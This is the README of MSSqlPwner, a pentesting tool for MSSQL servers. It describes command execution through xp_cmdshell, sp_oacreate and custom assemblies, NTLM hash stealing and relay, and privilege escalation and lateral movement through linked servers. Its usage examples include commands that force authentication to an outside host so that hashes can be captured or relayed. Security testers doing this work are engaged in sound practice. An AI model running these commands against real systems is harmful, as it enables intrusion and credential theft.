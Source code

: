 # MSSqlPwner
<p align="center">
 <img src="https://github.com/El3ct71k/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as xp_dirtree, xp_subdirs, xp_fileexist, and command execution.

Also, this tool provide opportunities for lateral movement assessments and exploration of linked servers.
For example, if the current session does not have administrative privileges, the tool will try to find a chain to escalates its own privileges used linked server.

If the local server does not have permission to execute certain operations, the tool can find a chain to enable execution. 
For example, it can send a query to a linked server that returns back with a link to the local server with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers.


This tool is supported by multiple authentication methods and described below.

MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.

The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.
## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` (Ole Automation Procedures) on local server or on linked servers

2. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` on local server or on linked servers
- `xp_subdirs` on local server or on linked servers
- `xp_fileexist` on local server or on linked servers

3. Encapsulated Commands and Queries: Execute incapsulated commands or queries using the following options:
- `execute_command` on local server or on linked servers
- `run_query` on local server or on linked servers
- `run_query_system_service` on local server or on linked servers as system user
4. Direct Queries 
- `direct_query` - execute direct queries on local or linked servers as system user.


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/El3ct71k/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec "cmd /c dir \\\\192.168.45.250\\test" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 ntlm-relay \\\\192.168.45.250\\test

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay \\\\192.168.45.250\\test

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.